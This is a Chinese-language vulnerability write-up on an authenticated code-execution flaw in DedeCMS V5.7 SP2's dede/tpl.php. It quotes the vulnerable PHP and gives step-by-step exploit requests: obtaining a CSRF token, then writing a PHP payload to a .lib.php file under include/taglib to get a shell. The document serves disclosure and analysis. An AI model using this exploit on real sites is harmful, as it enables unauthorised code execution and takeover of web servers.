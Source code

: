 ## [DedeCMS V5.7 SP2后台存在代码执行漏洞](http://www.freebuf.com/vuls/164035.html)


[下载](http://www.dedecms.com/products/dedecms/downloads/)

## Affected Version 

DedeCMS V5.7 SP2

## Code analysis

#### 漏洞详情

默认后台地址 `/dede/`，文件`dede/tpl.php`中的251到281行。


	csrf_check();
		#filename和前面正则的匹配情况
	    if(!preg_match("#^[a-z0-9_-]{1,}\.lib\.php$#i", $filename))
	    {
	        ShowMsg('文件名不合法，不允许进行操作！', '-1');
	        exit();
	    }
	    require_once(DEDEINC.'/oxwindow.class.php');
		#搜索filename中匹配`\.lib\.php$#i`的部分，以空格代替
	    $tagname = preg_replace("#\.lib\.php$#i", "", $filename);
		#去掉反斜号
	    $content = stripslashes($content);
		#拼接文件名
	    $truefile = DEDEINC.'/taglib/'.$filename;
		#写入内容
	    $fp = fopen($truefile, 'w');
	    fwrite($fp, $content);
	    fclose($fp);

replace处理之后赋值给变量 $tagname 。但是写入文件的时候并没有用到$tagname 。
那为什么有这个$tagname，拼接文件名的时候，应该是拼接`tagname`

利用

	1.由于dedecms全局变量注册的特性，所以这里的content变量和filename变量可控。

	2.可以看到将content直接写入到文件中导致可以getshell。但是这里的文件名经过正则表达式，所以必须要.lib.php结尾。

	3.这里还有一个csrf_check()函数，即请求中必须要带token参数。


#### 漏洞利用

1. 首先获取`token`。访问域名 + `/dede/tpl.php?action=upload`

	view-source:http://127.0.0.1:8000/DedeCMS/uploads/dede/tpl.php?action=upload

	d170f6bed3360da62d909d28a072c312



![](http://opmi2ydgh.bkt.clouddn.com//18-3-8/56295937.jpg)

2.然后访问 

	域名 + /dede/tpl.php?filename=secnote.lib.php&action=savetagfile&content=%3C?php%20phpinfo();?%3E&token=[你的token值



![](http://opmi2ydgh.bkt.clouddn.com//18-3-8/16267803.jpg)

shell 地址

	域名 + /include/taglib/secnote.lib.php

![](http://opmi2ydgh.bkt.clouddn.com//18-3-8/81830140.jpg)


## References

[DedeCMS V5.7 SP2后台存在代码执行漏洞](http://www.freebuf.com/vuls/164035.html)